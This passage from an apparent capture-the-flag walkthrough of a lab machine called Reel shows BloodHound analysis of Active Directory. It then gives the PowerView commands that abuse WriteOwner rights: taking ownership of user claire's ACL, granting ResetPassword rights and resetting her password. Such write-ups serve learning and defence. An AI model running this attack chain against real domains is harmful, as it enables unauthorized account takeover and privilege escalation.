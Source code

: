 #### Analysis

With data loaded, the default view is all the paths to Domain Admin. As tom said in his note, there’s no paths from user to Domain Admin, so it’s just empty.

I’ll start with tom. After putting tom in as the user, I’ll look at “First Degree Object Control” to see what object tom directly controls, and then “Transitive Object Control” to see where that could go if iterated out. Sometimes if the graph is hard to read, the refresh button will redraw it better:

![](https://0xdfimages.gitlab.io/img/reel-bloodhound.gif)

This analysis shows the same path to Backup\_Admins through claire.

## Privesc: tom -> claire

To move to the claire account, I’ll use the WriteOwner permission along with the functionality of PowerView to take the following steps:
- Become owner of claire’s ACL
- Get permissions on that ACL
- Use those permissions to change the password

For each of these steps, I’ll need PowerView, and PowerShell. Luckily, there’s a copy in `C:\Users\tom\Desktop\AD Audit\BloodHound`, so I will start up PowerShell and import it:

```

tom@REEL C:\Users\tom\Desktop\AD Audit\BloodHound>powershell
Windows PowerShell
Copyright (C) 2014 Microsoft Corporation. All rights reserved.

PS C:\Users\tom\Desktop\AD Audit\BloodHound> . .\PowerView.ps1

```

Next, I’ll set tom as the owner of claire’s ACL:

```

PS C:\users\tom\desktop\AD Audit\BloodHound> Set-DomainObjectOwner -identity claire -OwnerIdentity tom

```

Next, I’ll give tom permissions to change passwords on that ACL:

```

PS C:\users\tom\desktop\AD Audit\BloodHound> Add-DomainObjectAcl -TargetIdentity claire -PrincipalIdentity tom -Rights ResetPassword

```

Now, I’ll create a credential, and then set claire’s password:

```

PS C:\users\tom\desktop\AD Audit\BloodHound> $cred = ConvertTo-SecureString "qwer1234QWER!@#$" -AsPlainText -force
PS C:\users\tom\desktop\AD Audit\BloodHound> Set-DomainUserPassword -identity claire -accountpassword $cred

```
